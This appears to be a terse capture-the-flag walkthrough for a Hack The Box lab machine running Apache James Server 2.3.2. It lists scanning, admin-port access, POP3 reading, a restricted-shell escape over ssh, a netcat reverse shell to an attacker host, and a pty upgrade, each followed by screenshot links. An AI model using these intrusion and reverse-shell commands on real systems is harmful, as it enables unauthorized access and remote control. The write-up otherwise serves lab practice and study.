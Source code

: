 ```
nmap -p- -T5 10.10.10.51
Apache James Server 2.3.2
nc 10.10.10.51 4555
telnet 10.10.10.51 110
ssh mindy@10.10.10.51 -t bash
nc -e /bin/sh 10.10.14.7 4444
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.10.51
```
![image](https://user-images.githubusercontent.com/33616880/232411290-0737e4a9-3728-48cc-8020-4d623612be4c.png)


```
nmap -p- -T5 10.10.10.51
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4dc1085-200e-4e78-8228-8110bf48ae04)


```
Apache James Server 2.3.2
```
![image](https://user-images.githubusercontent.com/33616880/232411391-2215be98-0a72-481c-ada2-a785cb0045de.png)



```
nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/33616880/232411422-93d8116f-02c2-4fdf-b374-6702e705afc7.png)



```
telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/33616880/232411664-8c8044ef-1c89-441b-853f-55518768d4d7.png)
![image](https://user-images.githubusercontent.com/33616880/232411688-9d73ae68-51d5-401c-b5b3-b72917a225a4.png)



![image](https://user-images.githubusercontent.com/33616880/232411771-ce69392f-c335-4296-b432-bad7cf52866c.png)



```
ssh mindy@10.10.10.51 -t bash
```
![image](https://user-images.githubusercontent.com/33616880/232411850-787a182b-1bf5-409f-b09d-8b6d55570d87.png)



![image](https://user-images.githubusercontent.com/33616880/232417537-d85deedc-395d-4e0e-a8ee-c581372f6d2c.png)



```
nc -e /bin/sh 10.10.14.7 4444
```
![image](https://user-images.githubusercontent.com/33616880/232412026-ce4ec090-a949-4f8d-ac04-58a730fc8cfd.png)
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/232412051-828a625b-5617-4f42-994f-026aeb567b26.png)

